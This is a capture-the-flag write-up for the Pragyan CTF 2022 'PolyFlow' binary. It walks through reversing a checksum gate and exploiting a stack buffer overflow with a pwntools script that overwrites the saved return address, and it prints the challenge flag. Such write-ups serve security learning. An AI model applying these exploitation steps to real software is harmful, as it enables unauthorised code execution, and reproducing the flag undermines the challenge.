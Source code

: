 # Pragyan CTF 2022 - PolyFlow

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [Poly-flow.zip](Poly-flow.zip)

There will be 1 file in zip:

- Poly-flow

Download challenge and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file Poly-flow
Poly-flow: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=681641744fb6d6d68665b3a0a2a1ebac46415b0e, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, let's use `checksec` to check for all defences:

```
$ checksec Poly-flow
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see that `Canary found` and `NX enabled`. Finally, let's fire up ghidra and decompile to understand how the program works. 

The main function will ask for input, then check it and if it's correct, we will have input function:

![main.png](images/main.png)

At check function, it will add 4 bytes in first 16 bytes of our input and compare the result with `0xdeadbeef`

![check.png](images/check.png)

The sum inside loop will work like this (hex format) on stack if we input `aaaabaaacaaadaaa`:

```
 a a a a           61 61 61 61
 a a a b    -->    61 61 61 62
 a a a c           61 61 61 63
 a a a d           61 61 61 64
-------------------------------
                   85 85 85 8a
```

Because the sum will result in 0x1xx so from `0x61*4 = 0x184 + 1 = 0x185`. And afterh the sum, if it's equal with `0xdeadbeef` we will go into input function:

![input.png](images/input.png)

The var `i.0` is a global and at the begining of program, its value is 0. We can notice that the local variable local_1c is defined just 20 bytes but we can input upto 36 bytes --> **Buffer Overflow**.

That's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

Of course the first thing we need to do is to make sure we can get to the input function. To do that, we need to satisfy the check function.

After that, we will Buffer Overflow to execute the input function 5 times so that `i.0` will have the value of 5 and the flag will be printed.

- Summary:
  1. Satisfy check() function
  2. Get flag

# 3. Exploit

### Stage 1: Satisfy check() function

As we know that in check(), it will add 4 bytes of first 16 bytes and then compare with `0xdeadbeef`. So we will split the 16 bytes into 4 bytes per line like above. 

First, we will not want it to be 0x1xx because that will make us confused. We will take each byte of `0xdeadbeef` and divided with 4 to get the proper value for each byte of input (Python code):

```
0xde / 4        = 55.5
(0xde - 2) / 4  = 55.0 = 0x37

0xad / 4        = 43.25
(0xad - 1) / 4  = 43.0 = 0x2b

0xbe / 4        = 47.5
(0xbe - 2) / 4  = 47.0 = 0x2f

0xef / 4        = 59.75
(0xef - 3) / 4  = 59.0 = 0x3b
```

So the stack will sum 4 byte like this (hex format):

```
37 2b 2f 3b
37 2b 2f 3b
37 2b 2f 3b
39 2c 31 3e
-----------
de ad be ef
```

But wait, the stack is in a reverse order with this so we will need to change all collumns like this:

```
3b 2f 2b 37
3b 2f 2b 37
3b 2f 2b 37
3e 31 2c 39
-----------
ef be ad de
```


And we get the payload for scanf():

```
payload1 = \x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39
```

Input this with pwntool and we jump into input() function.

```
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'
p.sendlineafter(b'passphrase: ', payload1)
```

And now, let's move on the final stage: Get flag!

### Stage 2: Get flag

We can see that after scanf() input 16 bytes, then `\n` byte is remain and will go into fgets. That's why we can just input scanf() and then we stop. So that we will add some payload for fgets at `payload1` above so that it will be passed to fgets after scanf.

We know we have **Buffer Overflow** so let's find the offset with cyclic first(). After a while trying, we know that offset is 28 and after 28 byte is saved eip.

We can also see that the global var `i.0` will be increased 1 when execute input() function. So we will want to overwrite the saved eip with the input() function to make `i.0` contains 5, which help us get the flag.

```
# scanf()
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'

# fgets
payload1 += b'A'*(28)             # Padding
payload1 += p32(0x08049860)       # input function
p.sendlineafter(b'passphrase: ', payload1)

for i in range(4):
    p.sendline(payload1[16:])     # The same with padding and input() function
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{mUlT1Pl3_BuFf3R_Ov3rF|0w}`
